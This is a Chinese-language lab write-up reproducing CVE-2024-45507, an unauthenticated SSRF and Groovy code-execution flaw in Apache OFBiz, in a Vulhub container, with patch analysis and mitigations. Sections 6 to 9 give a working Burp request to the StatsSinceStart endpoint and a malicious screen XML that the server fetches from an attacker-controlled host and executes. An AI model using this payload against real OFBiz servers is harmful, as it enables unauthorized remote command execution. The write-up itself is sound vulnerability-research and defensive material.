






# CVE-2024-45507 - Apache OFBiz SSRF 与远程代码执行漏洞复现

## 1. 漏洞概述

CVE-2024-45507 是 Apache OFBiz 中的 **SSRF 与代码注入漏洞**。NVD 将其描述为 Server-Side Request Forgery 与 Improper Control of Generation of Code，即 SSRF 与代码注入组合漏洞，影响 Apache OFBiz 18.12.16 之前版本，推荐升级到 18.12.16 修复。([国家漏洞数据库](https://nvd.nist.gov/vuln/detail/CVE-2024-45507 "NVD - CVE-2024-45507"))

Vulhub 官方复现环境使用 Apache OFBiz 18.12.15。该漏洞可以通过 `/webtools/control/forgotPassword/StatsSinceStart` 接口中的 `statsDecoratorLocation` 参数触发：攻击者可以让 OFBiz 从远程 URL 加载 XML Screen 文件；如果远程 XML 中包含可执行的 Groovy 表达式，则可能造成远程代码执行。([GitHub](https://github.com/vulhub/vulhub/blob/master/ofbiz/CVE-2024-45507/README.md "vulhub/ofbiz/CVE-2024-45507/README.md at master · vulhub/vulhub · GitHub"))

这个漏洞适合归入：

```text
SSRF
+ 远程 XML 资源加载
+ OFBiz Screen Widget
+ Groovy 表达式执行
+ 组件型 RCE
```

它不是普通的 `url=` 参数型 SSRF，也不是简单的访问内网地址。更准确地说，它是 **服务端加载用户指定的 Screen 配置资源，并在渲染流程中执行其中表达式**。

---

## 2. 影响版本与利用条件

| 条件          | 说明                                                     |
| ----------- | ------------------------------------------------------ |
| 影响组件        | Apache OFBiz                                           |
| 影响版本        | Apache OFBiz 18.12.16 之前版本                             |
| Vulhub 环境版本 | Apache OFBiz 18.12.15                                  |
| 修复版本        | Apache OFBiz 18.12.16                                  |
| 触发接口        | `/webtools/control/forgotPassword/StatsSinceStart`     |
| 关键参数        | `statsDecoratorLocation`                               |
| 权限条件        | Vulhub 环境中未登录即可触发                                      |
| 漏洞类型        | SSRF + Code Injection                                  |
| RCE 条件      | 需要目标 OFBiz 从攻击者控制的 URL 加载恶意 Screen XML，并进入渲染 / 表达式执行流程 |

NVD 给出的 CVSS v3.1 分数为 9.8，向量为 `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`，并标记 CWE-918 与 CWE-94。([国家漏洞数据库](https://nvd.nist.gov/vuln/detail/CVE-2024-45507 "NVD - CVE-2024-45507")) Apache 官方安全页也明确记录 CVE-2024-45507 影响 18.12.16 之前版本，并在 18.12.16 中修复。([Apache OFBiz](https://ofbiz.apache.org/security.html "The Apache OFBiz® Project - Security"))

---

## 3. 漏洞原理

该漏洞的核心点是 `statsDecoratorLocation` 参数。这个参数原本用于指定 `StatsSinceStart` 页面渲染时使用的 decorator / screen 资源位置。受影响版本中，该资源位置可以被用户输入影响，且没有有效阻止 URL 形式的外部资源。

攻击链路可以概括为：

```text
攻击者访问未授权入口
  -> 提交 statsDecoratorLocation 参数
  -> 参数值指向远程 XML 文件
  -> OFBiz 服务端加载该 XML
  -> ScreenFactory / Widget 渲染流程解析 XML
  -> XML 中的 Groovy 表达式被求值
  -> 在 OFBiz 服务端执行命令
```

Apache 修复提交也能印证这个方向：官方在修复中增加了对 screen/script URI 的校验，用来阻止 URL pattern；相关修改涉及 `GroovyUtil.java`、`ScriptUtil.java` 和 `ScreenFactory.java`，其中 `ScreenFactory` 对 `FlexibleLocation.resolveLocation(resourceName)` 解析后的 URL 增加了 `UtilValidate.urlInString(...)` 检查。([GitHub](https://github.com/apache/ofbiz-framework/commit/ffb1bc4879 "Improved: Added validation to screen/script URI to block URL patterns… · apache/ofbiz-framework@ffb1bc4 · GitHub"))

所以这个漏洞的本质不是“某个接口可以访问外网”这么简单，而是：

```text
用户可控的资源位置
  -> 服务端远程加载 XML
  -> XML 被当作 OFBiz Screen 定义解析
  -> Screen 动作中包含表达式
  -> 表达式进入 Groovy 执行上下文
```

SSRF 是前半段，RCE 是后半段。  
前半段证明 OFBiz 可以访问攻击者控制的 URL；后半段证明远程 XML 内容会进入可执行渲染逻辑。

---

## 4. Vulhub 环境启动

进入 Vulhub 目录：

```bash
cd vulhub/ofbiz/CVE-2024-45507
```

启动环境：

```bash
docker compose up -d
```

Vulhub 官方说明中，该环境启动的是 Apache OFBiz 18.12.15，启动后访问：

```text
https://127.0.0.1:8443/accounting
```

即可看到 OFBiz 登录页面。([GitHub](https://github.com/vulhub/vulhub/blob/master/ofbiz/CVE-2024-45507/README.md "vulhub/ofbiz/CVE-2024-45507/README.md at master · vulhub/vulhub · GitHub"))



`docker-compose.yml` 使用镜像：

```text
vulhub/ofbiz:18.12.15
```

并映射端口：

```text
8443:8443
5005:5005
```

其中 `8443` 是本次 Web 复现入口，`5005` 不需要用于普通复现。([GitHub](https://raw.githubusercontent.com/vulhub/vulhub/master/ofbiz/CVE-2024-45507/docker-compose.yml "raw.githubusercontent.com"))

由于 OFBiz 使用 HTTPS，浏览器访问时可能会出现证书警告。Vulhub 本地靶场中直接继续访问即可。

---

## 5. 浏览器确认基础功能

浏览器访问：

```text
https://127.0.0.1:8443/accounting
```

预期看到 Apache OFBiz 登录页面。这个页面只用于确认环境正常，不代表漏洞触发。

这一阶段要确认的是：

```text
OFBiz 服务启动正常
HTTPS 8443 端口可访问
/accounting 页面能返回登录界面
后续 Burp 可以正常连接目标
```

---

## 6. SSRF 触发验证

### 6.1 复现目标

SSRF 阶段用于证明：

```text
OFBiz 会根据 statsDecoratorLocation 参数
由服务端请求指定 URL
```

Vulhub 官方给出的 SSRF 请求目标是：

```text
/webtools/control/forgotPassword/StatsSinceStart
```

请求参数为：

```text
statsDecoratorLocation=http://10.10.10.10/path/to/api
```

官方 README 明确给出了该接口和参数形式。([GitHub](https://github.com/vulhub/vulhub/blob/master/ofbiz/CVE-2024-45507/README.md "vulhub/ofbiz/CVE-2024-45507/README.md at master · vulhub/vulhub · GitHub"))

### 6.2 Burp 请求结构

在 Burp Repeater 中发送：

```http
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: 127.0.0.1:8443
Content-Type: application/x-www-form-urlencoded
Connection: close

statsDecoratorLocation=http://127.0.0.1:8000/test.xml
```

这里的 `http://127.0.0.1:8000/test.xml` 只是本地受控 HTTP 服务示例。实际复现时更稳的做法是在本机或同一 Docker 网络可达的位置启动一个简单 HTTP 服务，用来观察 OFBiz 是否访问该资源。



例如在 Vulhub 宿主机目录中准备一个普通文件：

```bash
mkdir -p /tmp/ofbiz-cve-2024-45507
cd /tmp/ofbiz-cve-2024-45507
echo "hello-ofbiz-ssrf" > test.xml
python3 -m http.server 8000
```

然后让 `statsDecoratorLocation` 指向这个 HTTP 服务。



注意：如果 OFBiz 容器内访问不到宿主机的 `127.0.0.1:8000`，因为容器内的 `127.0.0.1` 指的是容器自身，不是宿主机。这时应使用 Docker 可达地址，例如宿主机 LAN IP、`host.docker.internal`，或把接收服务放到同一 Docker 网络内。别在这里犯低级错，容器网络不是魔法门。

### 6.3 SSRF 成功判断

SSRF 成功的判断不是看 OFBiz 页面好不好看，而是看你的受控 HTTP 服务日志中是否出现来自 OFBiz 容器的请求。

预期日志类似：

```text
GET /test.xml HTTP/1.1
```

如果受控 HTTP 服务收到请求，说明：

```text
外部用户提交 statsDecoratorLocation
  -> OFBiz 服务端访问了该 URL
  -> SSRF 前半段成立
```



---

## 7. RCE 触发验证

### 7.1 复现目标

RCE 阶段用于证明：

```text
OFBiz 不只是访问远程 XML
还会把远程 XML 当作 Screen 配置解析
并执行其中的 Groovy 表达式
```

Vulhub 官方复现方式是在公开可访问的 HTTP 服务上放置一个 `payload.xml`，然后通过 `statsDecoratorLocation` 指向该 XML。官方示例中 XML 的 `<set>` 动作使用 Groovy 表达式执行 `touch /tmp/success`，用于无破坏性验证命令执行。([GitHub](https://github.com/vulhub/vulhub/blob/master/ofbiz/CVE-2024-45507/README.md "vulhub/ofbiz/CVE-2024-45507/README.md at master · vulhub/vulhub · GitHub"))

### 7.2 准备 payload.xml

在你控制的 HTTP 服务目录下创建：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<screens xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xmlns="http://ofbiz.apache.org/Widget-Screen"
         xsi:schemaLocation="http://ofbiz.apache.org/Widget-Screen http://ofbiz.apache.org/dtds/widget-screen.xsd">
    <screen name="StatsDecorator">
        <section>
            <actions>
                <set value="${groovy:'touch /tmp/success'.execute();}"/>
            </actions>
        </section>
    </screen>
</screens>
```

这个 payload 只做一件事：

```text
在 OFBiz 容器内创建 /tmp/success
```

它是无破坏性验证，不涉及反连、持久化或敏感数据读取。Vulhub 官方也使用 `touch /tmp/success` 作为验证命令。([GitHub](https://github.com/vulhub/vulhub/blob/master/ofbiz/CVE-2024-45507/README.md "vulhub/ofbiz/CVE-2024-45507/README.md at master · vulhub/vulhub · GitHub"))

启动 HTTP 服务：

```bash
python3 -m http.server 8000
```

假设 OFBiz 容器能够访问：

```text
http://<你的HTTP服务IP>:8000/payload.xml
```

---

## 8. 使用 Burp 触发 RCE

Burp Repeater 中发送：

```http
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: 127.0.0.1:8443
Content-Type: application/x-www-form-urlencoded
Connection: close

statsDecoratorLocation=http://<你的HTTP服务IP>:8000/payload.xml
```

这个请求的关键点如下：

| 位置                                                 | 作用                             |
| -------------------------------------------------- | ------------------------------ |
| `/webtools/control/forgotPassword/StatsSinceStart` | 触发 OFBiz 统计页面渲染流程              |
| `statsDecoratorLocation`                           | 控制 decorator / screen XML 加载位置 |
| `payload.xml`                                      | 被 OFBiz 服务端远程加载                |
| `<screen name="StatsDecorator">`                   | 与目标渲染流程中的 screen 名称对应          |
| `${groovy:...}`                                    | 进入 Groovy 表达式执行上下文             |
| `touch /tmp/success`                               | 无破坏性验证命令执行                     |

这里的 Burp 连接目标仍然是：

```text
https://127.0.0.1:8443
```

不要把 Burp 的 Target 改成你的 HTTP 服务。你的 HTTP 服务只是第二跳资源加载目标：

```text
第一跳：Burp -> OFBiz
第二跳：OFBiz -> payload.xml
第三步：OFBiz 解析 XML 并执行表达式
```



---

## 9. 结果验证

发送 RCE 请求后，进入 OFBiz 容器验证：

```bash
docker compose exec web ls -l /tmp/success
```

预期看到：

```text
/tmp/success
```

也可以检查文件是否存在：

```bash
docker compose exec web test -f /tmp/success && echo success
```

如果出现 `success`，说明命令执行成功。

Vulhub 官方复现说明中也明确：发送恶意 XML URL 后，进入容器可以看到 `touch /tmp/success` 已经被执行。([GitHub](https://raw.githubusercontent.com/vulhub/vulhub/master/ofbiz/CVE-2024-45507/README.zh-cn.md "raw.githubusercontent.com"))



---

## 10. 结果判断

| 现象                           | 含义                                    |
| ---------------------------- | ------------------------------------- |
| `/accounting` 返回 OFBiz 登录页   | 靶场启动正常                                |
| HTTP 服务日志收到 `payload.xml` 请求 | SSRF / 远程资源加载成立                       |
| `/tmp/success` 被创建           | RCE 验证成功                              |
| HTTP 服务没有访问日志                | OFBiz 无法访问你的 HTTP 服务，检查容器网络           |
| 返回 404                       | 接口路径错误，或 payload URL 路径错误             |
| 返回 500 但 HTTP 服务收到请求         | XML 被加载，但解析或执行阶段出错                    |
| 没有 `/tmp/success`            | XML 内容、screen 名称、Groovy 表达式或网络访问可能有问题 |
| Burp 目标改成 payload 服务         | 操作错误；第一跳目标必须是 OFBiz                   |
| HTTPS 连接失败                   | Burp 没有正确使用 TLS，或 8443 服务未启动          |

这个漏洞验证最好拆成两步：

```text
先证明 OFBiz 会请求 payload.xml
再证明 payload.xml 中的 Groovy 表达式被执行
```

不要直接跳到 RCE，不然排错时你会分不清是 SSRF 阶段失败，还是 XML / Groovy 执行阶段失败。

---

## 11. 漏洞风险分析

CVE-2024-45507 的风险分两层。

第一层是 SSRF。攻击者可以通过 `statsDecoratorLocation` 让 OFBiz 服务端请求指定 URL。这可能用于访问内网服务、云元数据地址或受网络边界保护的资源。

第二层是 RCE。由于 OFBiz 会把远程 XML 作为 Screen 资源加载并进入渲染逻辑，恶意 XML 中的 Groovy 表达式可能被执行，导致命令执行。

风险链路可以写成：

```text
未授权入口
  -> statsDecoratorLocation 可控
  -> 服务端远程加载 XML
  -> XML 被当作 Screen Widget 解析
  -> Groovy 表达式执行
  -> 远程命令执行
```

这也是为什么该漏洞比普通 SSRF 更有价值：它不仅能证明服务端请求边界失控，还能进一步说明 **OFBiz 的资源加载和脚本执行边界同时失效**。

---

## 12. 修复建议

官方推荐升级到 Apache OFBiz 18.12.16。NVD、Apache 官方安全页和 oss-sec 公告都明确说明该漏洞影响 18.12.16 之前版本，并建议升级到 18.12.16。([国家漏洞数据库](https://nvd.nist.gov/vuln/detail/CVE-2024-45507 "NVD - CVE-2024-45507"))

修复提交的核心思路是：对 screen/script URI 增加校验，阻止 URL pattern 被用于 screen 或 script 加载。官方提交中，`ScreenFactory`、`GroovyUtil`、`ScriptUtil` 都增加了类似 `UtilValidate.urlInString(...)` 的检查。([GitHub](https://github.com/apache/ofbiz-framework/commit/ffb1bc4879 "Improved: Added validation to screen/script URI to block URL patterns… · apache/ofbiz-framework@ffb1bc4 · GitHub"))

| 修复项           | 说明                                                                                    |
| ------------- | ------------------------------------------------------------------------------------- |
| 升级 OFBiz      | 升级到 18.12.16 或更高版本                                                                    |
| 限制敏感接口        | 不应将 WebTools、调试、统计类接口暴露到公网                                                            |
| 阻止远程 URL 资源加载 | Screen、script、decorator 等资源位置不应接受外部 URL                                               |
| 收敛脚本执行能力      | 禁止用户可控输入进入 Groovy / Java / Script 执行上下文                                               |
| 出站网络控制        | 限制 OFBiz 服务器访问内网、云元数据、非必要外部地址                                                         |
| 最小权限运行        | OFBiz 进程不应以高权限用户运行                                                                    |
| 日志监控          | 关注 `/webtools/control/forgotPassword/StatsSinceStart` 和异常 `statsDecoratorLocation` 请求 |
| 网络隔离          | ERP 系统、数据库、后台服务和管理接口应分区部署                                                             |

不要只靠黑名单过滤 `http://`。这类漏洞的修复重点是资源加载边界：**哪些位置允许加载文件、哪些位置允许执行脚本、这些位置是否能被用户输入影响**。

---

## 13. 复现总结

CVE-2024-45507 的触发入口是：

```text
/webtools/control/forgotPassword/StatsSinceStart
```

关键参数是：

```text
statsDecoratorLocation
```

漏洞本质是 OFBiz 允许用户控制 Screen / decorator 资源位置，导致服务端从远程 URL 加载 XML，并在渲染过程中执行其中的 Groovy 表达式。SSRF 是远程加载 XML 的前半段，RCE 是 XML 被解析并执行表达式的后半段。

推荐归档路径：

```text
cve-labs/ssrf/apache-ofbiz-cve-2024-45507.md
```

配套截图：

```text
screenshots/cve-2024-45507/01-ofbiz-login-page.png
screenshots/cve-2024-45507/02-ssrf-request-burp.png
screenshots/cve-2024-45507/03-http-server-log.png
screenshots/cve-2024-45507/04-payload-xml.png
screenshots/cve-2024-45507/05-rce-request-burp.png
screenshots/cve-2024-45507/06-success-file-in-container.png
```

这篇案例的重点不是“发了一个 POST 包执行命令”，而是这条链：

```text
statsDecoratorLocation 可控
  -> OFBiz 服务端远程加载 XML
  -> Screen Widget 解析
  -> Groovy 表达式执行
  -> /tmp/success 创建
```

这个案例比 GeoServer SSRF 更进一步：GeoServer 主要证明“服务端请求目标可控”，而 OFBiz 证明“服务端请求目标可控后，远程资源还能进入可执行配置解析链”。
